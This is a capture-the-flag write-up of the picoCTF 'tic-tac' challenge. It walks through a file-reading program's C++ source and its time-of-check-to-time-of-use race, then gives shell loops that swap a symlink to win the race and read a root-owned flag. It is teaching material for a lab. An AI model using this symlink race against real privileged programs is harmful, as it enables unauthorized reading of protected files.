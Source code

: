 # Writeup - tic-tac
Category: Binary Exploitation, Points: 200


## Descpriton

> Someone created a program to read text files; we think the program reads files with root privileges but apparently it only accepts to read files that are owned by the user running it.

We connect to the VM with `ssh`. Further details are given when the instance is launched.


## Vulnerability

After `ssh`ing into the VM. 

We can `ls` the current directory.

```console
$ ls
flag.txt  src.cpp  txtreader
```

We can see there is a `src.cpp` source file, a `flag.txt` file and a binary `./txtreader` file.

We can read `src.cpp` file.

```cpp
#include <iostream>
#include <fstream>
#include <unistd.h>
#include <sys/stat.h>

int main(int argc, char *argv[]) {
  if (argc != 2) {
    std::cerr << "Usage: " << argv[0] << " <filename>" << std::endl;
    return 1;
  }

  std::string filename = argv[1];
  std::ifstream file(filename);
  struct stat statbuf;

  // Check the file's status information.
  if (stat(filename.c_str(), &statbuf) == -1) {
    std::cerr << "Error: Could not retrieve file information" << std::endl;
    return 1;
  }

  // Check the file's owner.
  if (statbuf.st_uid != getuid()) {
    std::cerr << "Error: you don't own this file" << std::endl;
    return 1;
  }

  // Read the contents of the file.
  if (file.is_open()) {
    std::string line;
    while (getline(file, line)) {
      std::cout << line << std::endl;
    }
  } else {
    std::cerr << "Error: Could not open file" << std::endl;
    return 1;
  }

  return 0;
}
```

Now, the program is quite simple. It reads a file into the `file` pointer, and checks if the `file` is owned by the same person who created it. The `getuid` function returns your user-id, and the `statbuf.st_uid` returns the id of the `file` owner.

If you run:

```console
>./txtreader src.cpp
#include <iostream>
#include <fstream>
#include <unistd.h>
#include <sys/stat.h>

int main(int argc, char *argv[]) {
  if (argc != 2) {
    std::cerr << "Usage: " << argv[0] << " <filename>" << std::endl;
    return 1;
  }

  std::string filename = argv[1];
  std::ifstream file(filename);
  struct stat statbuf;

  // Check the file's status information.
  if (stat(filename.c_str(), &statbuf) == -1) {
    std::cerr << "Error: Could not retrieve file information" << std::endl;
    return 1;
  }

  // Check the file's owner.
  if (statbuf.st_uid != getuid()) {
    std::cerr << "Error: you don't own this file" << std::endl;
    return 1;
  }

  // Read the contents of the file.
  if (file.is_open()) {
    std::string line;
    while (getline(file, line)) {
      std::cout << line << std::endl;
    }
  } else {
    std::cerr << "Error: Could not open file" << std::endl;
    return 1;
  }

  return 0;
}
```

If we try to read the `flag.txt` file like this:

```console
$ ./txtreader flag.txt
Error: you don't own this file
```

It doesn't read it because we didn't create the `flag.txt` file. The `root` user has created it.

Now let's think of adding a `symlink`. If we create a `symlink` to `flag.txt`. It should trick the program into printing the contents of `flag.txt`, because we created the `symlink` hence we are the owners, and so it should pass the check.

```console
$ ln -sf flag.txt link  ##create the symlink
$ ./txtreader link
```

Unfortunately, this fails. The reason being the `stat` function resolves the `symlink` to it's orignal file `flag.txt`. Hence, on the `statbuf.st_uid` call, it gives the user-id for `root`.

If we see the challange tags, there is a tag called `toctou`. Google it and this results into a `time-of-check-time-of-use` attack. `toctou` attacks are caused by something called [Race Conditions](https://en.wikipedia.org/wiki/Race_condition). 

Race Conditions happen when two or more operations are running in parallel.

There is a Race Condition in the `src.cpp` file, caused by 2 instances. Firstly, it checks the ownership of the file. Secondly, it reads the file. We want to swap the file between when it checks ownership and when it reads.

```console
check_ownership(file) -- file is a dummy file owned by us

swap the file -- from the dummy file to flag.txt

read_file(file) -- read the flag.txt file!
```


## Exploit

First we create a dummy `random.txt` file.

Then, we can swap the `file` with a `symlink`. The basic idea is to keep swapping the `symlink` between `flag.txt` and our dummy file `random.txt`, for some amount of time in the background.

We can do this by:

```console
$ timeout 30s bash -c 'while true; do ln -sf random.txt flag; ln -sf flag.txt flag; done' &
```

The `timeout` command times-out after 30 seconds.

We then try to run `txtreader` multiple times so that we swap the file at the right time.

```console
$ while ! ./txtreader flag 2> /dev/null | grep "picoCTF"; do :; done
```

We should get the flag.


## References

[Link 1](https://brandon-t-elliott.github.io/tic-tac)
[Link 2](https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use)


